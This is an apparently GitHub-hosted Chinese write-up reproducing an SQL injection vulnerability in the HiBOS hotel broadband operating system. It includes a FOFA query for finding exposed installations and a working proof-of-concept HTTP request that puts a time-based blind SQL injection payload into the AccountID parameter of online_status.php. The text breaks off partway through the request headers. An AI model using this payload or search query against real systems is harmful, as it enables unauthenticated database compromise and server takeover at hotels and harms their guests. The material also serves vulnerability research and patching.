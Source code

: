 
# 安美数字酒店宽带运营系统 SQL 注入漏洞复现

### 0x01 产品简介

HiBOS 酒店宽带运营系统隶属于安美世纪（北京）科技有限公司开发的一套酒店宽带管理系统。

### 0x02 漏洞概述

 安美数字酒店宽带运营系统 online\_status.php、language.php 等接口处存在 SQL 注入漏洞，未经身份认证的攻击者可以通过此漏洞获取数据库权限，进一步利用可导致服务器失陷。

### 0x03 复现环境

FOFA：app="安美数字 - 酒店宽带运营系统"

![](assets/1701746621-db4a9f7884414ec471a0ecde89c6b946.png)

### 0x04 漏洞复现 

**PoC-1**

```cobol
GET /manager/frontdesk/online_status.php?AccountID=1%27+AND+%28SELECT+6097+FROM+%28SELECT%28SLEEP%285%29%29%29ClPT%29--+lMyr HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Conn
```
